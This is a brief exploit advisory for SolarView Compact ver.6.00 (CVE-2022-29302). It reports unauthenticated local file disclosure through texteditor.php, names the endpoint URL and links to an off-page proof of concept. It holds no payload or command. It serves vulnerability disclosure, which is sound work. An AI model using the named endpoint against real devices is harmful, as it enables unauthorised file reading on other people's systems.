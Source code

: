 # Exploit Title: SolarView Compact ver.6.00 - Local File Disclosure via texteditor.php
# Date: 2022-05-15
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: ver.6.00
# Vendor home page : https://www.contec.com/
# Authentication Required: No
# CVE : CVE-2022-29302

# Tested on: Windows


# Exploit
http://IP_ADDRESS/texteditor.php


# Poc
https://drive.google.com/file/d/1Bfyk1Nx51HbFGYuDNFKoDxUrloEj-Rzx/view